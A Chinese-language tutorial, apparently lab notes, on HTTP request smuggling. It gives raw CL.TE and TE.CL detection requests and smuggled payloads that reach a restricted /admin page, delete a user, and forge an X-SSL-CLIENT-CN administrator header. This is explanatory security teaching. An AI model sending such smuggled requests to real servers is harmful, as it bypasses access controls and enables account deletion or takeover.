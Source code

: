# HTTP 请求走私利用

HTTP 请求走私对 Web 应用的危害是非常大的，如果系统依赖前端服务器的校验功能，那么请求走私能绕过前端校验，导致后端服务器执行绕过校验的数据包。

为了方便，我将残留在缓冲区用于拼接其他请求的数据包成为 attack 包，将被拼接的数据包成为 normal 包。

### 绕过前端安全控制（CL.TE）

许多 Web 应用程序存在一些敏感路径（如：/admin 等）无法访问，我们可以通过 HTTP 请求走私直接访问后端服务，导致允许我们访问   敏感页面。

![image-20250410161852444](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410161852444.png)

1. 测试 CL.TE 漏洞（延时）

```
Content-Length: 4
Transfer-Encoding: chunked

1
A
X
```

![image-20250410162624428](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410162624428.png)

2. 测试 CL.TE 漏洞（差分）

![image-20250410162747884](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410162747884.png)

3. 漏洞利用

http 请求走私访问 /admin 页面被限制。

![image-20250410163743557](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410163743557.png)

设置 Host: localhost，出现错误，这是因为拼接时 attack 包和 normal 包的 host 标头拼接在一个包中，导致重复。

![image-20250410164304117](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410164304117.png)

将 normal 包（后续拼接过来的包）的头放到 attack 包请求体中：

```
Content-Length: 135
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

![image-20250410165233587](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410165233587.png)

BP 抓取 delete 按钮的包，根据报文内容，构建一个 HTTP 走私包。

delete 包内容：

![image-20250410165805823](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410165805823.png)

构造 HTTP 走私包，删除用户：

![image-20250410165912673](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410165912673.png)

查看是否删除：

![image-20250410170022399](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410170022399.png)

### 绕过前端安全控制（TE.CL）

1. 延时技术测试是否存在 CL.TE，没有延时，不存在。

```
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 4
Transfer-Encoding: chunked

1
A
X
```

![image-20250410170846023](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410170846023.png)

2. 延时技术测试是否存在 TE.CL，存在延时，存在漏洞。

```
# 测试数据包：
POST / HTTP/1.1
Host: vulnerable.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

![image-20250410171212731](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410171212731.png)

3. 漏洞利用

![image-20250410171940037](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250410171940037.png)

总结：如上仅限制于绕过前端的安全控制，如果后端也存在安全控制（如：根据 cookie 判断用户）那么仅仅绕过前端的安全控制是没用的。

但是 HTTP 请求走私也可能窃取用户 cookie。

### 绕过客户端验证

还有一种方式去绕过验证访问 /admin 页面。

TLS 握手时，客户端（浏览器）往往需要根据缓存的根证书来校验服务器发来的证书是否受信任。有些服务器还实现了双向的 TLS 身份验证，客户端还需要向服务器提供证书，此时服务器可能将客户端提供的证书作为访问控制的一部分。（例如：根据客户端提供的证书 CN 来区分用户身份：客户 or 管理员）。

如果实现了上述机制，那么前端服务器可能会使用请求头标注用户身份，如：

```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

这里的 X-SSL-CLIENT-CN 标头，用户不可控制，因为它是前端服务器添加的。

这是构造 HTTP 走私，绕过前端服务器控制：

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x
```

条件：服务器支持这种 TLS 双向认证，并将其作为后端服务器访问控制的一部分。